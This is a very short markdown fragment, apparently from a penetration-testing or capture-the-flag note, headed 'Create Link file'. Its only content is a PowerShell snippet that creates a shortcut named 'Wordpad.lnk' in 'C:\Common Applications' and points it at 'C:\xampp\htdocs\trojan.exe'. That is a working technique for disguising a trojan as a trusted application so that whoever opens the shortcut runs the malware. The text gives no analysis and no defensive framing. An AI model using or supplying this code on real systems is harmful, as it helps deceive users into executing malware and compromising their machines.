 # Create Link file

```powershell
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("C:\Common Applications\Wordpad.lnk")
$Shortcut.TargetPath = "C:\xampp\htdocs\trojan.exe"
$Shortcut.Save()

```